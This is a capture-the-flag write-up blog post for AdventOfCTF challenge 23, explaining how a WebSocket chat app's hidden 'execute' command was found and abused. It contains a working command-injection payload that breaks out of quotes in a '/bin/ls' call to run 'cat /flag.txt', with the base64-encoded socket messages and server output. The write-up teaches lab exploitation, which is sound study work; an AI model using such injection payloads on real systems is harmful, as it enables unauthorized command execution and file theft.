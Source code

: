 +++
author = "Maik de Kruif"
title = "Challenge 23 - AdventOfCTF"
date = 2021-03-16T20:52:38+01:00
description = "A writeup for challenge 23 of AdventOfCTF."
cover = "img/adventofctf/497784f7a3314f8aa5b8464432e30bbe.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "websockets",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2300

## Description

If all you do is talk, there are bound to be secret features. The flag is stored in /flag.txt.

Visit https://23.adventofctf.com to start the challenge.

## Recon

When opening the page, we're greeted with, what looks like, a chat screen. If we type a message in the message box and send it, it appears on the screen.

If we take a look at the source, we also find a bit of javascript:

```js
$(function () {
  var socket = io();
  $("form").submit(function () {
    socket.emit("chat message", { message: $("#m").val() });
    $("#m").val("");
    return false;
  });
  socket.on("chat message", function (msg) {
    console.log(msg.command);
    if (msg.command === "code") {
      $("#messages").append($("<li>").html("<pre>" + msg.message + "</pre>"));
    } else {
      $("#messages").append($("<li>").text(msg.message));
    }
    window.scrollTo(0, document.body.scrollHeight);
  });
});
```

## Finding the vulnerability

From the JavaScript code we can see that the chat uses WebSockets. To take a deeper look at it, let's switch over to the network tab in Chrome and click on the request with the type "websocket".

{{< figure src="/img/adventofctf/23/websocket.png" title="Websocket in Chrome DevTools" >}}

If we click on it, a tab with the messages sent on the websocket will open. We can see some numbers here, these are just heartbeat packets to keep the connection alive. Now, let's send a new message and have a look at what it actually sends/receives.

After we send the message, we see the following entry being added to the websocket message list.

```js
⬆42["chat message", {message: "Hi"}]
⬇42["chat message", {message: "Hi"}]
```

We can see this message contains two parts; the event name and the message itself. We also only see a message variable, while in the javascript code we also saw it looked for a `"command"`. Let's try to manually add it to the message.

### Manually sending a message

In Chrome (to my knowledge) we can't easily send a message on a websocket. We could use Burp Suit to do it but for this writeup I'll stick with Chrome. To send a message on the websocket, we need the `socket` variable from the javascript code. To get it, go to the `Sources` tab and click on `(index)`. Now click on line number 28 to add a breakpoint there. We choose this place as it will trigger a breakpoint just before a message gets sent and we thus have access to the socket variable.

{{< figure src="/img/adventofctf/23/breakpoint.png" title="Javascipt breakpoint in Chrome" >}}

Now if we try to send a message, chrome will pause the page. The console will now also have the scope of the piece of code at the breakpoint. This means that if we enter `socket` in the console, will get the socket object back:

```js
> socket
< Socket {receiveBuffer: Array(0), sendBuffer: Array(0), ids: 0, acks: {…}, flags: {…}, …}
```

Let's save this object to the global scope so we can always access it. To do this, let's enter the following code in the console:

```js
window.socket = socket;
```

We can then click the continue button or press `F8` to continue the script. To verify we still have access to the socket, we can try to send a message using the console. I used the following code for this:

```js
socket.emit("chat message", { message: "Hello" });
```

After running this, we also see the message pop up in the chat window.

### Sending a command

Because the code tries to read `msg.command`, let's try adding a command to the message. We can do that using the following code:

```js
socket.emit("chat message", {
  message: "Hello",
  command: "ls",
});
```

As we expect from the code, `"ls"` is printed to the console but nothing else seems to happen. Maybe the command does not exist, let's try the common `help` command.

```js
socket.emit("chat message", { message: "Hello", command: "help" });
```

This time it returns a different message: "Allowed message types are: help, execute and empty".

## Exploit

The `execute` command looks interesting, so let's take a further look at it.

```js
socket.emit("chat message", { message: "Hello", command: "execute" });
```

Upon sending it, the server returns "Invalid BASE64". This probably means it is trying to read base64 encoded data. But from where? Let's try replacing the message with a base64 encoded command.

```bash
> echo -n "ls" | base64 -w 0
bHM=⏎
```

```js
socket.emit("chat message", { message: "bHM=", command: "execute" });
```

This time we got a different result:

```text
ERR: Error: Command failed: /bin/ls 'ls'
ls: ls: No such file or directory
```

This means the backend is trying to list the contents of "ls", let's try again with a `/` as the message:

```bash
> echo -n "/" | base64 -w 0
Lw==⏎
```

```js
socket.emit("chat message", { message: "Lw==", command: "execute" });
```

This returns the following:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The only thing left is reading the `flag.txt` file. From the ls error we know the backend executes the following: `/bin/ls '[MESSAGE]'`. This means we have to construct a command that works around the quotes around our input. An example for the input would be `/'; cat '/flag.txt` as this makes the command become the following:

```bash
/bin/ls '/'; cat '/flag.txt'
```

Let's try that.

```bash
> echo -n "/'; cat '/flag.txt" | base64 -w 0
Lyc7IGNhdCAnL2ZsYWcudHh0⏎
```

```js
socket.emit("chat message", {
  message: "Lyc7IGNhdCAnL2ZsYWcudHh0",
  command: "execute",
});
```

This will give us the following output:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
NOVI{i_hacked_websockets_and_1_am_still_s@ne}
```

## Solution

We got the flag! It is `NOVI{i_hacked_websockets_and_1_am_still_s@ne}`.
